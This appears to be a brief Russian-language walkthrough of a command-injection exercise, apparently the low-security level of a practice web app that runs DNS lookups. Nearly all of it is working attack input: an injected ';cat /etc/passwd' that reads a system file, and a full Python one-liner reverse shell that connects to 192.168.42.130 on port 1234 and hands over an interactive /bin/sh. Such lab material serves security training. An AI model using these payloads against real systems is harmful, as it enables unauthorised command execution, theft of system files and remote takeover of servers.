


# OS Command Injection

**(low)**


Приложение использует командную строку для выполнения DNS-запроса к указанному домену. Продуем выполнить команду
```bash
;cat /etc/passwd
```


Ну и наконец создадим payload
```bash
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.42.130",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
